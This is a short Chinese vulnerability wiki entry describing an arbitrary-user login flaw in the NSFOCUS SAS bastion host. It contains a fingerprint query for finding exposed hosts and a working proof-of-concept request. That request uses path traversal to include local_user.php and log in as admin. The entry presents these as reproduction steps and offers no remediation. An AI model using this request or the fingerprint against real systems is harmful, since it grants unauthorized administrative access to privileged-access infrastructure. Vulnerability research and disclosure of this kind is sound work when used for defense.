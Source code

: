 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810132919858.png)

验证POC

```plain
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![img](/assets/PeiQi-Wiki/img/1687844048220-9698fde6-1bdd-4068-bfa6-c5bdda190d42-20230810132919979.png)